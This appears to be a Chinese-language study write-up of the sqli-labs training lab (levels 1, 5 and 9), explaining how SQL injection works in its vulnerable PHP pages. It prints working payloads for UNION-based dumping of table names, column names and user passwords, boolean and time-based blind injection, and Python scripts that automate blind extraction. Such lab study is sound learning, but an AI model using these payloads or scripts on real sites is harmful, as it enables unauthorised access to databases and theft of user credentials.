真的久远又模糊……说是sqli lab其实是重新整理和学习SQL注入

<!--more-->

  

# Less-1

  

结合着源码看

  

## '

  

`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`

  

- 当注入`id=1'`时，得到

```txt

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

```

  

对照着翻译一下，

SELECT * FROM users WHERE id ='1'' LIMIT 0,1

那个报错信息是'error message'，所以可能会误以为是`''1''`。

  

而当`id=1"`时，

  

SELECT * FROM users WHERE id = '1"' LIMIT 0,1

  
  

双引号被看作是id的值的一部分，并不会截断原语句，所以就正常输出dumb。

  

## or

  

- 当`id=1' or '1' = '1`的时候

  

SELECT * FROM users WHERE id = '1' or '1' = '1'

  

因为 or之前的语句 正确，被理解为查询 id = 1，而后面的语句也判断为正确，所以整个payload被认为 正确，这会返回所有的用户信息

  

`id = 2' or '1' = '1`的时候返回的是用户的 id=1 的信息，这和上面没有解释的 返回所有用户信息 有关。

  

拿之前那个数据库的user表来举例：




需要注意的是这里的 payload版本是 id = 1' or '1'='1

  

`LIMIT 0, 1`表示只返回查找到的第一个用户信息，这也是为什么两个payload都只出现了 id = 1 的用户的信息。

  
  

## 注释

  

再来说注释

  

举例,想通过注释把后面的LIMIT进行注释掉

  



当然这个是MySQL workbench里面进行的查询，

  
  

可以构造一个类似的payload `id = 1' or '1' = '1' --+`，不过使用之后得到的SQL语句是

`SELECT * FROM user WHERE id='1' or '1' = '1' -- ' LIMIT 0,1`并返回 id=1的记录

  

其实在这里注释符号起效了，但是在原代码里面还有另一个限制条件

  

```php

$row = mysql_fetch_array($result);

  

if($row)

    {

    echo "<font size='5' color= '#99FF00'>";

    echo 'Your Login name:'. $row['username'];

    echo "<br>";

    echo 'Your Password:' .$row['password'];

    echo "</font>";

    }

    else

    {

    echo '<font color= "#FFFF00">';

    print_r(mysql_error());

    echo "</font>";  

    }

  

```

  

> mysqli_fetch_array 用于从结果集中获取一行作为关联数组，而在这段代码中只调用了一次，因此只获取了结果集的第一行。

  
  

在这种双重限制之下，即使绕过了 LIMIT 的限制，也还有第二重 限制 。

  
  

<hr>

  
  

我们换一个代码进行测试

  

```php

 if ($result) {

        // 获取结果集中的行数

        $numRows = mysqli_num_rows($result);

  

        if ($numRows > 0) {

            // 遍历结果集中的每一行

            while ($row = mysqli_fetch_array($result)) {

                // 遍历当前行的每一列

                foreach ($row as $column) {

                    echo $column . " ";

                }

                echo "<br>";

            }

        } else {

            echo "未找到匹配的记录";

        }

    } else {

        echo "查询失败: " . mysqli_error($conn);

    }

```

  

进行注入攻击则会返回所有记录。

  

<font size =2>追寻短短几行字中的原理的过程得让人用一生去治愈……</font>

  

<hr>

<hr>

  
  

## AND

  

把 `or`换成`and`

就拿最近的这个 `id = 1' or '1' = '1' --+` 举例

  

`id = 1' and '1' = '1' --+`

  

```txt

sql thing: SELECT * FROM user WHERE id='1' and '1' = '1' -- ' LIMIT 0,1

Your name is: John<br>your psw: daidgiaegigak

```

  

我的理解：

  

- **or条件下**，字符'1'等于‘1’为真——`making the entire condition true for every row`，id=1，id=2无所谓，执行语句的只是看true or not，true就返回，而这个做到为每一个记录发放 true 通行证，所以返回了所有记录。

  

- 而**and条件下**，`Since '1'='1' is always true, the condition simplifies to id = '1', and it checks whether the id is equal to the string '1'.`也是'1'='1'永远为 true ， 这个条件语句就会被简化成 id = 1' （可以理解为为 true 简写），但执行者只看见 id = 1‘ 并且在该语句中为 true ，所以就只返回了id = 1的记录

  

<hr>

  

## order by

  

正常的order by 用法：

  



  

而在SQL注入中用的是：

  

`SELECT * FROM user WHERE id='1' order by 4 -- ；`

  

payload就是 `id = 1' order by 4 --+`

  



  

当修改 order by后面的数字为5的时候：

  

Error Code: 1054. Unknown column '5' in 'order clause'



  

可以由这种对比中看出这个 order by 究竟在 by 个什么——**columns**。

  

这个测试表里面有 4 个columns：

- username

- email

- password

- id

  

超出column数的时候就会报错，而没有超过都会正常回显，借此可以知道有几列(column)

  

>当你指定ORDER BY 4，数据库会尝试按照第4列的值对结果进行排序。如果user表有至少4列，这个查询就会成功执行并返回结果。但是，如果user表少于4列，数据库就无法找到第4列，这个查询就会失败，并返回一个错误，通常是“Unknown column ‘4’ in ‘order clause’”。

  

<hr>

  

## 联合查询

  

### 1

  

`SELECT * FROM user where id = '-1' union select 1,2,3,4-- '`

  



  

>SELECT * FROM user where id = '-1' union select 1,2,3,4-- '的含义是，先从user表中选择那些id等于-1的行，然后将结果与select 1,2,3,4的结果合并。

UNION操作符用于合并两个或多个SELECT语句的结果集。在这个查询中，union select 1,2,3,4会创建一个临时的结果集，其中包含一行，这一行的值分别是1,2,3,4。

  

id = -1 这一行其实不存在，如果使用了存在的id进行 union：

  



  

这一个可以理解为寻找回显点。

  
  

id=1


  

id=2


  

id=-1' union select 1,2,3--+


  

三张图片对比，找到回显点是 `name` 和 `password`这两个地方

  

<hr>

  

### 2

  

`id = -1' union select 1, database(), version() --+`

  

用那个测试表

  



  

- 最上面的那行告诉了回显点在 1 和 3

- 在SQL语句中找到相应位置进行修改

- 最后可以看到在 1 和 3 对应的位置，分别修改成了 数据库的名称 demo 和版本 8.0.34

  
  

<hr>

  

## Group_concat

  

到这里的时候换了一个数据库，所以数据库内容有些许不同。

  

>GROUP_CONCAT时MySQL数据库提供的一个聚合函数

  
  

在数据库测试

  

`SELECT * FROM user WHERE id='-1' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='demosql' -- ;`

  



  

不过在demo界面进行测试的时候出了点意外：

  

- 查询失败: SELECT command denied to user 'demo'@'localhost' for table 'tables'

  

悲伤的故事，没有足够权限……提权的事情之后说。

  

不过我们看sqli lab

  

- `id=-1%27%20union%20select%201,2,%20GROUP_CONCAT(table_name)%20from%20information_schema.tables%20WHERE%20table_schema=%27security%27--+`

  

也就是

  

- `id=-1' union select 1,2, GROUP_CONCAT(table_name) from information_schema.tables WHERE table_schema='security'`

  



  

<hr>

  

### 一个位置问题

  

这里也有一个有趣的点，

  

如果你是写成  1，group_concat.., 3 那么就会报错

  

- UNION SELECT 选择了 **两个** 表达式：<b>1, GROUP_CONCAT(table_name)</b>。

  
  

而上面的 1，2，group_concatxxx

  

- UNION SELECT 选择了 **三个** 表达式：<b>1, 2, GROUP_CONCAT(table_name)</b>。

  

原因也很简单（找半天）： WHERE 后面指定的 键不能有 `,`，会引起语法错误。

  



  

这个语句的目的是将 SELECT `*` FROM user WHERE id='-1' 的结果与SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='demosql'的结果合并在一起。

  

因为SELECT `*` FROM user选择了3个列（该user表中有3个列），所以UNION SELECT也需要选择3个值，以便结果的列数相同。

  

<hr>

  

但是也不是不能把 3 写在后面，但是不是 最后面：

  

- `SELECT * FROM user WHERE id='-1' UNION SELECT 1, GROUP_CONCAT(table_name), 3 FROM information_schema.tables WHERE table_schema='demosql' -- ;`

  

payload version:

  

- `?id=-1' UNION SELECT 1, GROUP_CONCAT(table_name), 3 FROM information_schema.tables WHERE table_schema='demosql' --+`

  


  
  

### 多输出？

  

前面提到即使注释掉了 LIMIT 0, 1 也还有一个if条件语句进行输出限制，为什么这里多个表名就能一起输出了？（有这个疑问一方面是我和那个if斗争太久，一方面是没怎么去看group_concat的作用。）

  

原因 is：

>当使用GROUP_CONCAT(table_name)来获取所有的表名时，所有的表名都会被连接成一个长字符串，然后作为一条记录返回。

  
  

<hr>

  
  

### shoot

  

查询表内列名：

  

`?id=-1' UNION SELECT 1, GROUP_CONCAT(column_name), 3 FROM information_schema.columns WHERE table_name='users' --+`

  
  

得到列名之后进一步 查询id, 用户及其密码：

  
  

`?id=-1' UNION SELECT 1, GROUP_CONCAT(id, username, password), 3 FROM users --+`

  

所以基本的SQL注入语句就是上述几种。对于 Less-1， Less-2完全够用了。Less-1和Less-2~4的去捏也只是 SQL 执行语句对于 $id 的闭合方式的不同。

  

- Less-1： $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

  

- Less-2： $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";

  

...

  
  

在Less-2的这种情况下就不用加 `'`进行闭合。

  

不过除了引号闭合，还有其他的符号，在后面的Less就会出现。

不想重复该过程所以可以考虑写脚本进行。

  

<hr>

  
  

简单理解，information_schema是一个MySQL创建的信息数据库，保存着MySQL服务维护的所有的其他数据库的信息，但只读，不支持其他操作。

[information_schema是什么](https://zhuanlan.zhihu.com/p/88342863)

  

# Less-5

  

SQL语句和Less-1一致，但是在回显这里有不同：

  

```php

if($row)

    {

    echo '<font size="5" color="#FFFF00">';

    echo 'You are in...........';

    echo "<br>";

        echo "</font>";

    }

    else

    {

    echo '<font size="3" color="#FFFF00">';

    print_r(mysql_error());

    echo "</br></font>";    

    echo '<font color= "#0000ff" font size= 3>';    

    }

```

  

这意味着 查询到结果并不会返回，只会告诉你 You are in ...........。

  

但是输入 id=1'使其报错，它确实返回了错误信息。

  

报错注入就是这样诞生的。

  

想要从前端得到信息，就从会返回信息的前端界面接收。（感觉说起来要么是废话要么就是得道禅师会说的）

  

## 报错注入

  

因为是用MySQL数据库作为demo，所以用的函数也是MySQL的，不过道理一个样，其他类型数据库顶多是换个函数的区别。

  

先来认识几个常用函数

  

- **length()**

判断查询结果长度

  

- **substr()**

截取每一个字符，并穷举出字符内容

  
  

`id=1 and exists(select * from information_schema.tables)--+`

  
  

查询database名长度

  

`id=1' and length((select database()))>9 --+`

  

```python

import requests

  

url_template = 'http://xxx/sqli-labs-master/Less-5/?id=1\' and length((select database()))={} --+'

length = 1

  

def guess_length(length):

    response = requests.get(url_template.format(length))

    return 'You are in' not in response.text

  

while guess_length(length):

    length += 1

  

print(f"The length of the database name is: {length}")

  

```

  
  

再通过substr()和ASCII查询到database名

  

`id=1' and ascii(substr((select database()), 1, 1))=115 --+`

  

substr(a,b,c)

  

- a为截取的字符串

- b为截取的位置

- c为截取的长度

  

一个简单脚本

  

```python

import requests

  

url = 'http://xxx/sqli-labs-master/Less-5/?id=1\' and ascii(substr((select database()), {0}, 1))={1} --+'

  

def guess_character(position, ascii_value):

    response = requests.get(url.format(position, ascii_value))

    if 'You are in' in response.text:

        return chr(ascii_value)

    else:

        return None

  

position = 1

characters = []

  

while True:

    for ascii_value in range(32, 127):

        character = guess_character(position, ascii_value)

        if character is not None:

            characters.append(character)

            position += 1

            print(character)

            break

    else:

        break

  

database_name = ''.join(characters)

print(database_name)

  

```

  

免去一个字一个字手动操作的不必要的事情，当然，用sqlmap比较方便。

  

- `id = 1' and length((select group_concat(table_name) from information_schema.tables where table_schema = database()))>13 --+`

- `id = 1' and ascii(substr(group_concat(table_name) from information_schema.tables where table_shcema = database()),1 ,1))>99 --+`

- `id = 1' and length((select group_concat(column_name) from information_schema.columns where table_schema = database() and table_name = 'users'))>13 --+`

- `id = 1' and ascii(substr(group_concat(column_name) from information_schema.columns where table_shcema = database() and table_name = 'users'),1 ,1))>99 --+`

- `id = 1' and length((select group_concat(username, password) from users))>13 --+`

- `id = 1' and ascii(substr(group_concat(username, password) from users),1 ,1))>99 --+`

  
  

想过要不要写一个整合的代码，但sqlmap比较好用，等我以后来补充。

  

sqlmap be like:

  



  



  



  
  
  

`#科技的力量`

  

<hr>

  
  

# Less-9

  

上面的是报错注入，后面的还有一种盲注，对报错信息进行了处理——即它不告诉你。

  

```php

if($row)

    {

    echo '<font size="5" color="#FFFF00">';

    echo 'You are in...........';

    echo "<br>";

        echo "</font>";

    }

    else

    {

    echo '<font size="5" color="#FFFF00">';

    echo 'You are in...........';

    //print_r(mysql_error());

    //echo "You have an error in your SQL syntax";

    echo "</br></font>";    

    echo '<font color= "#0000ff" font size= 3>';    

    }

```

  

两行注释就完成无回显。

  

如果取消对 print_r(mysql_error()) 的注释，写 id=1'



  

不然就是只有一个 You are in

  
  

对于这种，就用 时间盲注

  

## 时间盲注

  

- if()

- sleep()

- length()

- ascii()

  
  

>if(ascii(...) = 115, sleep(5), 1): 如果截取的字符的 ASCII 值等于 115（ASCII 值为 s），则执行 sleep(5)，即使服务器等待 5 秒钟；否则，返回 1。

  

这个用代码效果会更好。

  

```txt

?id=1' and if(1=1,sleep(5),1)--+

判断参数构造。

  

?id=1'and if(length((select database()))>9,sleep(5),1)--+

判断数据库名长度

?id=1'and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+

逐一判断数据库字符

  

?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+

判断所有表名长度

?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+

逐一判断表名

  

?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+

判断所有字段名的长度

?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+

逐一判断字段名。

  

?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+

判断字段内容长度

?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+

逐一检测内容。

  

```

  

代码在之前那个的基础上修改就行了。

  

下面这个是获取database名的代码示例：

  

```python

import requests

import time

  

url = 'http://xxx/?id=1\' and if(ascii(substr((select database()), {0}, 1))={1}, sleep(5), 1)--+'

  

def guess_character(position, ascii_value):

    response = requests.get(url.format(position, ascii_value))

    if response.elapsed.total_seconds() >= 5:

        return chr(ascii_value)

    else:

        return None

  

position = 1

characters = []

  

while True:

    for ascii_value in range(32, 127):

        character = guess_character(position, ascii_value)

        if character is not None:

            characters.append(character)

            position += 1

            print(character)

            break

    else:

        break

  

database_name = ''.join(characters)

print(database_name)

  

```

  

# maybe or maybe not

  

前几章的基本是这些。

  

[more](http://drops.xmd5.com/static/drops/tips-7840.html)

  

[and](https://ctf-wiki.org/web/sqli/#_10)

  

[more技巧](http://drops.xmd5.com/static/drops/tips-7299.html)
